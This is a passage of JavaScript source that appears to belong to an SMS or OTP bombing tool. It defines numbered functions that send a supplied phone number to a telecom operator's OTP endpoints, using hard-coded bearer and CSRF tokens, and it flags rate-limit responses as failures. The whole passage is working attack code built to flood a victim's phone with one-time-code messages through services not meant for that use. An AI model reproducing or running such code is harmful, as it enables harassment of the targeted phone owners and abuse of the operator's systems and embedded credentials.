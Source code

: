         const result = await response.json();

      
        if (result.otpsent === 'false' || result.status === 'failed') {
            throw new Error(`API 14 Failure: ${result.error || 'Unknown error'}`);
        }

        return result;
    } catch (error) {
        console.error('API 14 Error:', error);
        throw error;
    }
}

async function api_15(phone) {
    const url = "https://webapi.robi.com.bd/v1/send-otp";
    

    try {
        const response = await fetch(url, {
            method: 'POST',
            headers: {
            'Authorization': 'Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJqdGkiOiJnaGd4eGM5NzZoaiIsImlhdCI6MTY5MjY0MjE4MSwibmJmIjoxNjkyNjQyMTgxLCJleHAiOjE2OTI2NDU3ODEsInVpZCI6IjU3OGpmZkBoZ2hoaiIsInN1YiI6IlJvYmlXZWJTaXRlVjIifQ.zIjqAeTCI-kFmH5nTuAII1HzQISfOLOyLfYH4FlcjXA',
            'Content-Type': 'application/json'
            },
            body: JSON.stringify({
            phone_number: phone,
            type: 'my_offer'
            })
        });

        const result = await response.json();

        
        if (result.status === 'Failed' || result.error || result.message.includes('limit exceeded')) {
            throw new Error(`API 15 Failure: ${result.message || 'Unknown error'}`);
        }

        return result;
    } catch (error) {
        console.error('API 15 Error:', error);
        throw error;
    }
}

async function api_16(phone) {
    const url = "https://webapi.robi.com.bd/v1/account/register/otp";
    

    try {
        const response = await fetch(url, {
            method: 'POST',
            headers: {
            'Content-Type': 'application/json',
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0',
            'X-CSRF-TOKEN': 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJqdGkiOiJnaGd4eGM5NzZoaiIsImlhdCI6MTY4MTQ3MjU5NiwibmJmIjoxNjgxNDcyNTk2LCJleHAiOjE2ODE0NzYxOTYsInVpZCI6IjU3OGpmZkBoZ2hoaiIsInN1YiI6IlJvYmlXZWJTaXRlVjIifQ.-k1ByaD69rmEy1NXzEIT08fJvZ9c6OysjmaQfe8hEz0',
            'Authorization': 'Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJqdGkiOiJnaGd4eGM5NzZoaiIsImlhdCI6MTY4MTQ3MjU5NiwibmJmIjoxNjgxNDcyNTk2LCJleHAiOjE2ODE0NzYxOTYsInVpZCI6IjU3OGpmZkBoZ2hoaiIsInN1YiI6IlJvYmlXZWJTaXRlVjIifQ.-k1ByaD69rmEy1NXzEIT08fJvZ9c6OysjmaQfe8hEz0'
            },
            body: JSON.stringify({
            phone_number: phone
            })
        });

